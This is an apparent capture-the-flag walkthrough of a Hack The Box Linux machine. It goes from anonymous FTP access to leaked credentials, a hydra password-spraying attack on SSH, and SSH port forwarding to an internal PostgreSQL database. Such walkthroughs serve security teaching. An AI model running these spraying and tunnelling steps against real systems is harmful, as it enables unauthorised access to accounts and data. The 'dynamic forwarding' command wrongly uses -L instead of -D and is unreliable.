



---
tags:
  - Linux
  - FTP
  - Guest access
  - localhost service
  - PostgreSQL
---

... is a simple HTB machine which has a `ssh` and a `ftp` port open, which accepts anonymous logins. There, a list of usernames can be found with a singular password. A password spraying attack then allows you to access ssh with valid credentials. Using `ssh tunneling`, a local `PostgreSQL` service can be accessed.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.10.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
The magic of the `-sC` flag is displayed here, as `nmap` has identified that this FTP service allows users to login anonymously without proper credentials. It also shows the directory listing, containing the `mail_backup` directory.

### Initial Exploitation
When logging on, using `ftp $IP 21`, i get asked for the username. As anonymous FTP login is allowed, i simply enter `anonymous`, leaving the password empty. From this FTP service i `get` the two files `password_policy.pdf` and `welcome_28112022`. On the local machine, both can be `open`-ed and read.

The `password_policy.pdf` file is a precautionary message to employees that they need secure passwords, and need to replace the `funnel123#!#` password immediately. 
The `welcome_28112022` file is a e-mail to the employees telling them that they need to follow the attached password policy. From this file, the usernames:
```bash
optimus
albert
andreas
christine
maria
```
... can be read, and put into a `users.txt` file, which can then be used for a password spraying attack against the `ssh` service. For this, i have chosen `hydra`. The full command for this task is explained below:
```bash
hydra -L users.txt -p 'funnel123#!#' ssh://$IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -L: list of names, -l for singular name
# -p: singular password, -P for list of passwords
# ssh://: do attack against ssh service
```

This gave us the credentials to log in: `christine:funnel123#!#`.
We can use these using `ssh christine@$IP`, and by entering the password when prompted.

There was no flag to be found. Christine also has no permissions to execute command with elevated privileges. The next step would be to look at the open ports from within `ssh`, as some ports may be only accessible from within the system and not from outside. To do so, i use `netstat`, which is a network diagnostics tool which shows you open ports on your machine:
```bash
netstat -tulnp
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -t: show TCP ports
# -u: show UPD ports
# -l: show listening ports
# -n: do not resolve names, show numbers
# -p: display PIDs
```

and i see this:


The ports `21` and `22` are open for everyone, which is displayed via the local address being `0.0.0.0` (or `:::` for `IPv6`). This is a reserved IP address, which basically means `everyone` is allowed to access this.

More interestingly, the ports `43241`, `53` and `5432`. `43241` isn't reserved for any specific service, so i can't determine what it offers right now. Port `53` usually stands for `DNS`. Port `5432` is the jackpot, as it indicates an `PostgreSQL` service. To interact with it, the tool `psql` is required, which is sadly not installed on the machine, and `christine` is not allowed to install it.

To be able to interact with this service, we must somehow get our commands on our machine to be executed as the target machine. This can be achieved using port forwarding, which is a standard feature on `ssh`. 
Within port forwarding there are three modes of operation.

- Local port forwarding (`-L`): allows us to use remote services.
- Remote port forwarding (`-R`): allows the remote machine to use our services.
- Dynamic port forwarding (`-D`): A two-way proxy which lets all ports through. A bit more complicated.

As we want to access the remote service on port `5432`, we initiate local port forwarding when logging on via `ssh`:
```bash
ssh -L 2345:localhost:5432 christine@$IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# 2345: port on our machine which gets opened. If talked to, ssh will forward it to the target port. can be any port.
# localhost: the remote host we want to reach. NOT $IP, as we want to be localhost (127.0.0.1) on the target.
# 5432: the remote port which gets interacted with when interacting with port 2345 on the local machine.
```

Now with this connection open, we can issue this command to interact with the remote `PostgreSQL` instance:
```bash
psql -h localhost -p 2345 -U christine
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -h: hostname. we want to access our local machine, as that gets forwarded to the target
# -p: port. this is the open port from ssh, which gets routed to 5432 from the target!
# -U: username. password gets asked for after logging on
```

This worked! Using the `\?` command, more information about the `PostgreSQL` specific commands can be read. The alternative to `show databases` is `\l`. Changing the database works with `\c` instead of `use`. For `show tables`, it is `\dt+`. The rest are standard SQL statements.
The full workflow can be seen below:


#### Alternative way
I've also wanted to show how it works with dynamic port forwarding. To do that, issue this command when logging on via `ssh`:
```bash
ssh -L 9050 christine@$IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# 9050: port of the socks proxy on the local machine.
```

`localhost:9050` is now a SOCKS proxy, meaning that all traffic which is sent through that, can reach all services on the target machine. If the machine has a `http` service, the browser of `burpsuite` can be configured to use this proxy. Within the browser, you can then visit `http://localhost`, and see the web page.

To use tools through this connection, we need `proxychains4`. Check if the `/etc/proxychains4.conf` is setup correctly to show :
`socks4  127.0.0.1 9050`.

Now, any tool can be used on the target system by simply pre-pending `proxychains4`. To connect to the local `PostgreSQL` service, the command would look like this:
```bash
proxychains4 psql -h localhost -p 5432 -U christine
```

### Summary

Below is a visualized summary of the exploitation steps used in this machine.

